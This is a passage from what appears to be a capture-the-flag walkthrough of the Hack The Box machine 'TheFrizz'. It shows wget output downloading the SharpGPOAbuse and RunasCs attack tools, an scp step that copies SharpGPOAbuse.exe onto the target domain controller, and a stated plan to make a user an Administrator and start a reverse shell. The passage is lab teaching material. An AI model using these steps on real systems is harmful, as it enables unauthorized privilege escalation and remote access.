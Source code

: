 ```
Location: https://release-assets.githubusercontent.com/github-production-release-asset/310712485/9978d100-38b5-11eb-8c1d-3ad8cf9c0968?sp=r&sv=2018-11-09&sr=b&spr=https&se=2025-07-22T09%3A41%3A26Z&rscd=attachment%3B+filename%3DSharpGPOAbuse.exe&rsct=application%2Foctet-stream&skoid=96c2d410-5711-43a1-aedd-ab1947aa7ab0&sktid=398a6654-997b-47e9-b12b-9515b896b4de&skt=2025-07-22T08%3A40%3A53Z&ske=2025-07-22T09%3A41%3A26Z&sks=b&skv=2018-11-09&sig=CYzq%2F8WLbjoT95FFGOaRPS1DK%2FTpX%2FdY5kNsi%2F3vJPk%3D&jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmVsZWFzZS1hc3NldHMuZ2l0aHVidXNlcmNvbnRlbnQuY29tIiwia2V5Ijoia2V5MSIsImV4cCI6MTc1MzE3NDUzOSwibmJmIjoxNzUzMTc0MjM5LCJwYXRoIjoicmVsZWFzZWFzc2V0cHJvZHVjdGlvbi5ibG9iLmNvcmUud2luZG93cy5uZXQifQ.L_0OoBOdY15d4e_BCND0sBmWVmPltRUxQ9ctIbzz-M8&response-content-disposition=attachment%3B%20filename%3DSharpGPOAbuse.exe&response-content-type=application%2Foctet-stream [following]
--2025-07-23 17:52:31--  https://release-assets.githubusercontent.com/github-production-release-asset/310712485/9978d100-38b5-11eb-8c1d-3ad8cf9c0968?sp=r&sv=2018-11-09&sr=b&spr=https&se=2025-07-22T09%3A41%3A26Z&rscd=attachment%3B+filename%3DSharpGPOAbuse.exe&rsct=application%2Foctet-stream&skoid=96c2d410-5711-43a1-aedd-ab1947aa7ab0&sktid=398a6654-997b-47e9-b12b-9515b896b4de&skt=2025-07-22T08%3A40%3A53Z&ske=2025-07-22T09%3A41%3A26Z&sks=b&skv=2018-11-09&sig=CYzq%2F8WLbjoT95FFGOaRPS1DK%2FTpX%2FdY5kNsi%2F3vJPk%3D&jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmVsZWFzZS1hc3NldHMuZ2l0aHVidXNlcmNvbnRlbnQuY29tIiwia2V5Ijoia2V5MSIsImV4cCI6MTc1MzE3NDUzOSwibmJmIjoxNzUzMTc0MjM5LCJwYXRoIjoicmVsZWFzZWFzc2V0cHJvZHVjdGlvbi5ibG9iLmNvcmUud2luZG93cy5uZXQifQ.L_0OoBOdY15d4e_BCND0sBmWVmPltRUxQ9ctIbzz-M8&response-content-disposition=attachment%3B%20filename%3DSharpGPOAbuse.exe&response-content-type=application%2Foctet-stream
Resolving release-assets.githubusercontent.com (release-assets.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.109.133, ...
Connecting to release-assets.githubusercontent.com (release-assets.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 80896 (79K) [application/octet-stream]
Saving to: ‘SharpGPOAbuse.exe’

SharpGPOAbuse.exe     100%[=======================>]  79.00K  --.-KB/s    in 0.004s

2025-07-23 17:52:31 (17.1 MB/s) - ‘SharpGPOAbuse.exe’ saved [80896/80896]

fcoomans@kali:~/htb/thefrizz$ scp -o GSSAPIAuthentication=yes SharpGPOAbuse.exe m.schoolbus@frizzdc.frizz.htb:'C:/Users/M.SchoolBus/AppData/Local/Temp'
SharpGPOAbuse.exe                                                                                                                        100%   79KB 161.6KB/s   00:00
```

The goal is to make `M.SchoolBus` an Administrator, but the `sshd_config` showed that Administrators are Denied from SSH.  This means that `M.SchoolBus` will not be allowed to SSH to the server and the current session, after being promoted to Administrator won't have Administrator privileges.

I therefore also download `RunasCs` to start a reverse shell as `M.SchoolBus` (who will be a member of the Administrators group).  `scp` is once again used to copy the file to the target.

```
fcoomans@kali:~/htb/thefrizz$ wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
--2025-07-23 18:00:18--  https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
Resolving github.com (github.com)... 20.87.245.0
Connecting to github.com (github.com)|20.87.245.0|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://release-assets.githubusercontent.com/github-production-release-asset/201331135/46cefc59-1a1e-4e32-8b47-864a11159984?sp=r&sv=2018-11-09&sr=b&spr=https&se=2025-07-22T09%3A49%3A37Z&rscd=attachment%3B+filename%3DRunasCs.zip&rsct=application%2Foctet-stream&skoid=96c2d410-5711-43a1-aedd-ab1947aa7ab0&sktid=398a6654-997b-47e9-b12b-9515b896b4de&skt=2025-07-22T08%3A48%3A50Z&ske=2025-07-22T09%3A49%3A37Z&sks=b&skv=2018-11-09&sig=abla3NQrKpwmFHYbcd30dS8nmPNr4FEtqERwHvPc02M%3D&jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmVsZWFzZS1hc3NldHMuZ2l0aHVidXNlcmNvbnRlbnQuY29tIiwia2V5Ijoia2V5MSIsImV4cCI6MTc1MzE3NTEwMSwibmJmIjoxNzUzMTc0ODAxLCJwYXRoIjoicmVsZWFzZWFzc2V0cHJvZHVjdGlvbi5ibG9iLmNvcmUud2luZG93cy5uZXQifQ.QcGItL5X1M4hw1yN3HzQsIUibTXzZNREEk5m0qwpuBY&response-content-disposition=attachment%3B%20filename%3DRunasCs.zip&response-content-type=application%2Foctet-stream [following]
```
